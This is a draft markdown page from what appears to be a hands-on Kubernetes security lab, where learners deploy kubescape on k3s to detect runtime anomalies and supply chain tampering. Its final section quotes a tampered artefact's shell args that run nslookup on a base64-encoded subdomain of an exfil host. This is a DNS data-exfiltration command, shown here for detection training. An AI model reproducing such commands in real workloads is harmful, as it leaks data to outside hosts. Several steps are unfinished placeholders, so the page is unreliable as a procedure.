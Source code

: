 ```yaml
---
kind: unit

title: Consume the app on client cluster

name: consume-app-install
---
```


Pretending we are now the consumer/user of `webapp` , we have our own infrastructure.
This consumer uses k3s, which is another slim kubernetes flavour from a different vendor than k0s.

We, ll cover the following
 
* Get to know our k3s installation
* Deploy kubescape in a slightly different config to give us anomaly detection
* Follow the 2-step installation process
* Watch it for the two types of anomalies
  

## 0 Clone repo
Again, lets clone the same repo, this is a fresh playground
```git
git clone https://github.com/k8sstormcenter/honeycluster.git
cd honeycluster
git checkout 152-implement-bill-of-behaviour-demo-lab 
```
::simple-task
---
:tasks: tasks
:name: git_clone
---
#active
Waiting for you to clone the repo


#completed
Congrats! 
::

## 1 Install kubescape and wait until it's up and running

```sh
make kubescape-bob-kind
```
```bash
kubectl get pods -n honey -l app.kubernetes.io/instance=kubescape
```
You want the `STATUS` of all pods to be `Running`, like so:
```
laborant@dev-machine:webapp_t$ kubectl get pods -n honey -l app.kubernetes.io/instance=kubescape
NAME                                READY   STATUS    RESTARTS   AGE
grype-offline-db-579c6cbc47-rvgqk   1/1     Running   0          20m
node-agent-b4qmg                    2/2     Running   0          20m
node-agent-tgs8f                    2/2     Running   0          20m
node-agent-vslk6                    2/2     Running   0          20m
operator-559b868885-kr8dt           1/1     Running   0          20m
storage-79d6fd9785-gdpx2            1/1     Running   0          20m
```


Check out the Explorer tab :tab-locator-inline{text='Explorer' name='Explorer'}

## 2 pull down artefact

```sh
some mystical command like ctr pull
```


## 3 deploy artefact (first without tampering)

WIP: currently testing the tampered artefact deployment automation
TODO: Use FIRST the untampered one and just compare k8s and k3s

Hang on: step 1 is deploying the application profile -> add this TODO
```sh
cd traces/kubescape-verify/attacks/webapp/
chmod +x setup.sh
./setup.sh
```

Open a new tab :tab-locator-inline{text='new terminal' machine='dev-machine' :new=true}
Lets test the ping:

```sh
curl localhost:8080/ping.php?ip=172.16.0.2
```
if that works, let it loop 

```sh
while true; do curl localhost:8080/ping.php?ip=172.16.0.2; sleep 10; done
```
Do not kill the looping.
Please, switch back to the original :tab-locator-inline{text='dev-machine' name='dev-machine'} tab, and you are ✅



## 4 Wait for kubescape to settle

TODO: replace with more production like method

We ll wait until we have an application profile again and we ll throw it away

```sh
kubectl describe cm -n honey ks-cloud-config
kubectl describe RuntimeRuleAlertBinding all-rules-all-pods
```

```sh
kubectl get applicationProfile -A
kubectl get applicationProfile replicaset-webapp-75c688bfc4 -o yaml > ~/originalappprofile.yaml
```

```
laborant@dev-machine:webapp_t$ kubectl get applicationProfile -A
NAMESPACE   NAME                           CREATED AT
default     replicaset-webapp-75c688bfc4   2025-04-25T12:38:28Z
```

now edit that profile (so it keeps it name), but use the content of the one from Module 1!!!


## 5 watch how k3s is different from k8s

## 6 same game with the supply chain corruption

if you deployed the tampered one, notice

```
    - args:
      - /bin/sh
      - -c
      - nslookup NjQgYnl0ZXMgZnJvbSAxNzIuMTYuMC4yOiBpY21wX3NlcT0zIHR0bD02MyB0aW1lPTAuNDUzIG1z.exfil.k8sstormcenter.com
        > /dev/null 2>&1
      path: /bin/sh
```

